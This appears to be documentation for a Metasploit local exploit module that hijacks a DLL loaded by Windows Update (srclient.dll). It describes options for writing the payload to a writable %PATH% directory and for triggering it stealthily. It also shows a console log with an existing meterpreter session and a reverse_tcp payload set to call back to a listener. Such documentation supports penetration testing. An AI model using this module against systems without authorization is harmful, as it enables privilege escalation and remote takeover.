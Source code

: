 ## Options
### WRITABLE_PATH_DIR
The full path to a writable %PATH% directory to write the payload to. If this is not set,
the module will enumerate the %PATH% directories and try to find one that is writable by the current user.
### STEALTH_ONLY
If this is enabled, the module will only exploit the target if this is possible by triggering the payload via the
`WUAUCLT /DetectNow` command, which will launch Windows Update in the background.
This means that exploitation will not proceed if Windows Update is set to never check for updates on the target.
### WAIT_FOR_TOWORKER
The number of minutes to wait for TiWorker.exe to finish running if it is already active (because the exploit won't work if it is).
The default value is 0.

## Scenarios
### Windows 2012 x64 - %PATH% enumeration (default) with Verbose set to true
```
msf6 exploit(windows/local/srclient_dll_hijacking) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  3         meterpreter x64/windows  WIN-FCDUOQDT1NB\wynter @ WIN-FCDUOQDT1NB  192.168.91.12:8443 -> 192.168.91.16:49157 (192.168.91.16)

msf6 exploit(windows/local/srclient_dll_hijacking) > show options 

Module options (exploit/windows/local/srclient_dll_hijacking):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   SESSION            3                yes       The session to run this module on.
   STEALTH_ONLY       false            no        Only exploit if the payload can be triggered without launching the Windows Update UI)
   WAIT_FOR_TIWORKER  0                no        No. of minutes to wait for TiWorker.exe to finish running if it is already active.
   WRITABLE_PATH_DIR                   no        Path to a writable %PATH% directory to write the payload to.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.91.12    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Server 2012 (x64)
```